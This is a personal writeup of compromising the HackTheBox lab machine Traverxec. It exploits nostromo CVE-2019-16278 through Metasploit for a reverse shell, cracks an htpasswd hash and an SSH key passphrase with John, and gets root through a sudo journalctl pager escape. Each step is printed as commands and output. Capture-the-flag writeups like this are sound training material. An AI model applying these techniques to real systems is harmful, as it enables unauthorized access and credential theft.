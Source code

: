 ```yaml
---
layout: single
title: "Traverxec - Linux HacktheBox Writeup"
categories:
  - Writeup
tags:
  - Easy
  - Linux
  - HackTheBox
classes: 
  - wide
---
```

Slowly getting used to hacking the boxes, I'll hopefully be taking more efficient notes for myself. 

Anyway, here's the next box: Traverxec!

**ENUMERATION**

Using Nmap:
```
sudo nmap -sS -sC -sV 10.10.10.165             

PORT   STATE SERVICE VERSION

22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)

80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Using Dirbuster after finding an open http port:

We can see so many directories and sub-directories. I was at a loss as to what to look into. So I took a step back. 

Looking at the version and header of the server, we can see that it's running Nostromo.
As habit, looking into the versions used by servers is a good way of finding known vulnerabilities and pre-existing CVEs. 
Doing some research shows known exploits relating to the same version used. Let's find out what it's about.  

The exploit is a known vulnerability identified as [CVE-2019-16278](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16278). 
It is a *Directory Traversal and Remote Command Execution* vulnerability. Directory traversal web vuln allows an attacker to read arbitrary files on a server running a web application, for example, our website found through Nmap in our case. 
These files can be very sensitive. These can include credentials for instance. Ultimately, the attacker might be able to write to these files allowing them to gain control over the server.  

Metasploit: 

Booting up msfconsole shows us the exploit we can use for the  nostromo server. So the exploit is going to run and push through a reverse shell as the user 'www-data'.
This is successful. 

**INITIAL FOOTHOLD**

Looking through our shell, we immediately find another user called David whose files we cannot access. 
It looks like we're going to have to find a way to escalate to David's privileges to find our first flag.

We check the usual files to see if we have any ability to read them. 
We can't check sudo -l command unfortunately. And we cannot read /etc/shadow. 

However, we can read the etc/passwd and etc/crontab files. Although nothing of interest seems to pop up.   
After doing a little research and thanks to the [System Manager's Manual for NHTTPD](http://www.nazgul.ch/dev/nostromo_man.html), we find out that there is a ./htpasswd file in the config files. 
Using the find command, we find said file in the following path: /*var/nostromo/conf/.htpasswd*

```
cat /var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```
**LATERAL MOVEMENT**

We have a hash! Alright so running this through our John, the following decrypted hash is shown: Nowonly4me
Now at this point, I struggled to find the correct course of action when it came to this password. 
I couldn't find a way to use it. I decided to read a writeup in order to give myself a clue and a nudge in the right direction. 

The writeup suggests looking at the config files more closely and specifically at the the way directories are configured.

```
/var/nostromo/conf$ cat nhttpd.conf 
# MAIN [MANDATORY]

servername              traverxec.htb
serverlisten            *
serveradmin             david@traverxec.htb
serverroot              /var/nostromo
servermimes             conf/mimes
docroot                 /var/nostromo/htdocs
docindex                index.html

# LOGS [OPTIONAL]

logpid                  logs/nhttpd.pid

# SETUID [RECOMMENDED]

user                    www-data

# BASIC AUTHENTICATION [OPTIONAL]

htaccess                .htaccess
htpasswd                /var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

/icons                  /var/nostromo/icons

# HOMEDIRS [OPTIONAL]

homedirs                /home
homedirs_public         public_www
```
Reading the file in the conf directory shows us two interesting things. Back to the manual page, reading about homedirs explains that we can have remote access to a user's home directory if we add the ```~``` prefix to the user (In the URI). 
It also says that access can be restricted to one sub-directory via the homedirs_public option, which we now know is 'public_www'. 

So back in our shell, we should be able to directly access the following directory: 

```
$ cd /home/david/public_www
$ ls            
index.html  protected-file-area

$ cd protected-file-area/
$ ls
backup-ssh-identity-files.tgz
```
We have found some backup credentials. We can transfer these back to our machine and extract the content using the following command: 

```
tar -xvf backup-ssh-identity-files.tgz
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub
```
I can then format the id_rsa key using ssh2john.py
```
/usr/share/john/ssh2john.py /home/user/david/.ssh/id_rsa > id_rsa_john
```
Running John to decrypt the key we get: 
```
john --wordlist=/usr/share/wordlists/rockyou.txt --format=ssh id_rsa_john 

Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Press 'q' or Ctrl-C to abort, almost any other key for status

hunter           (/home/user/david/.ssh/id_rsa)
```
And finally, making sure to change the permission to the key to allow for the correct format, we should be able to SSH right in. 

```
chmod 600 /home/user/david/.ssh/id_rsa

ssh -i /home/user/david/.ssh/id_rsa  david@10.10.10.165
Enter passphrase for key '/home/user/david/.ssh/id_rsa': 
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64

david@traverxec:~$ whoami
david

david@traverxec:~$ ls -a
.   .bash_history  .bashrc  Enum_Rapp   .local    public_www  .ssh
..  .bash_logout   bin      LinEnum.sh  .profile  run-parts   user.txt

david@traverxec:~$ cat user.txt
```
We've succeeded in laterally moving/priv'escalating to David and in finding out the User Flag!

**PRIVILEGE ESCALATION**

Exploring the directories in David, /bin has a script called *server-stats.sh*. 
Not quite sure what this is, so let's read it. 

```
david@traverxec:~/bin$ cat server-stats.sh 
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```
So we can see that it runs a linux command called journalctl. Ans better yet, it runs it as sudo. Hopefully without needing a password. A quick runs of the script confirms this. 
For the next part, I head over to [GTFObins](https://gtfobins.github.io/gtfobins/journalctl/), and find that we can escalate our privilege as sudo using the journalctl command. 

So the goal is to use the script to inject the arbitrary command and spawn a root shell. GTFObins explains that journalctl is likely to be used with *less*, a default pager. This means that the script runs by reading the last five logs. We're going to need put in our command by stopping the script from reading just yet. 
For this to happen we just type in the command without the piped cat command. And then proceed to type in our priv'esc command because we'll be in the pager.  

```
david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Wed 2021-07-28 13:08:05 EDT, end at Wed 2021-07-28 15:38:51 EDT
Jul 28 13:59:48 traverxec sudo[903]: pam_unix(sudo:auth): authentication failure
Jul 28 13:59:58 traverxec sudo[903]: www-data : command not allowed ; TTY=pts/1 
Jul 28 15:31:47 traverxec su[2892]: pam_unix(su:auth): authentication failure; l
Jul 28 15:31:49 traverxec su[2892]: FAILED SU (to david) www-data on pts/0
Jul 28 15:37:06 traverxec nhttpd[2324]: /../../../bin/sh sent a bad cgi header
!/bin/sh 

# whoami
root

# cat /root/root.txt
```

Success!
